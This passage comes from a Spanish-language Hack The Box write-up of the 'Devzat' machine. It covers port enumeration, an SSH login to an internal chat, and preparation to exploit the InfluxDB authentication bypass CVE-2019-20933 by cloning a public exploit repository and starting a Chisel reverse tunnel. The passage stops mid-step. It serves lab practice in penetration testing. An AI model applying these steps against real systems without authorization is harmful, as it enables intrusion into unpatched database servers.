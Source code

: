 Bingo, descubrimos varios puertos abiertos, descartamos el **5000** porque ya vimos en el código fuente que pertenece a la API y no nos interesa.
Sin embargo, tenemos el puerto **`8086`** y el **`8443`**. Tras una breve búsqueda en Google, encuentro algo interesante: [8086 - Pentesting InfluxDB](https://book.hacktricks.xyz/pentesting/8086-pentesting-influxdb)

Pero antes de meternos de lleno con InfluxDB, vamos a centrarnos en el puerto 8443.
Al principio nos daban acceso para probar la aplicación, probemos a conectarnos de igual modo pero al puerto indicado y como el usuario **`patrick`** (este nombre de usuario estaba reservado para uso local).

```console
patrick@devzat:/home$ ssh -l patrick devzat.htb -p 8443
```

![DevChat](/assets/images/hackthebox/machines/devzat/devchat1.png)

Observamos un mensaje interno del administrador explicando que ha intalado la versión **`1.7.5`** de InfluxDB. Si volvemos a la página encontrada anteriormente, vemos que mencionan una vulnerabilidad:

> There was a vulnerability influxdb that allowed to bypass the authentication: [CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933)

Visitamos el enlace y nos explica que efectivamente las versiones inferiores a **`1.7.6`** son vulnerables.

Nos clonamos el repositorio en nuestra máquina e instalamos las dependencias con **`pip install -r requirements`**.
También necesitamos descargar [Chisel](https://github.com/jpillora/chisel) (si no lo tenemos) para realizar [Port-Forwarding](https://es.wikipedia.org/wiki/Redirecci%C3%B3n_de_puertos)

```console
p3ntest1ng:~$ git clone https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933.git
Clonando en 'InfluxDB-Exploit-CVE-2019-20933'...
remote: Enumerating objects: 27, done.
remote: Counting objects: 100% (27/27), done.
remote: Compressing objects: 100% (27/27), done.
remote: Total 27 (delta 8), reused 4 (delta 0), pack-reused 0
Recibiendo objetos: 100% (27/27), 7.94 KiB | 813.00 KiB/s, listo.
Resolviendo deltas: 100% (8/8), listo.
p3ntest1ng:~$ cd InfluxDB-Exploit-CVE-2019-20933/
p3ntest1ng:~$ pip install -r requirements.txt
```

Una vez tengamos listo el exploit, levantamos un servidor tunelizado con **`Chisel`**

```console
p3ntest1ng:~$ chisel server -p 9999 --reverse
2022/01/24 07:42:59 server: Reverse tunnelling enabled
2022/01/24 07:42:59 server: Fingerprint wZAOi31QDp7a44JtK3nepyKtFi9NPsajWkV5E2qpouo=
2022/01/24 07:42:59 server: Listening on http://0.0.0.0:9999
```

Nos descargamos en nuestra máquina la última release de **`Chisel`** desde su Github y levantamos un servidor http:
